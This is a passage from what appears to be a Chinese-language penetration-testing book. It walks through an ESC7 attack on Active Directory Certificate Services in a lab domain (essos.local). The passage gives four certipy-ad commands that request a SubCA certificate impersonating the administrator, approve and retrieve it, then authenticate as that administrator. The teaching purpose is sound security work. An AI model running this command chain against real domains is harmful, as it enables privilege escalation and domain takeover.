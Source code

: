 执行前述命令的结果如下：

![图 8.34 – 启用 SubCA 模板并授予 khal.drogo 官员权限](img/B18964_08_34.jpg)

图 8.34 – 启用 SubCA 模板并授予 khal.drogo 官员权限

我们将通过请求使用`SubCA`模板的证书来发起攻击，手动批准它，最后检索已发放的证书。以下命令将执行攻击：

```
certipy-ad req -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -template SubCA -upn administrator@essos.local
certipy-ad ca -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -issue-request 19
certipy-ad req -u khal.drogo@essos.local -p horse -ca ESSOS-CA -target braavos.essos.local -retrieve 19
certipy-ad auth -pfx administrator.pfx -dc-ip 192.168.56.12
```

前述命令的结果如下截图所示：

![图 8.35 – 成功的 ESC7 攻击](img/B18964_08_35.jpg)
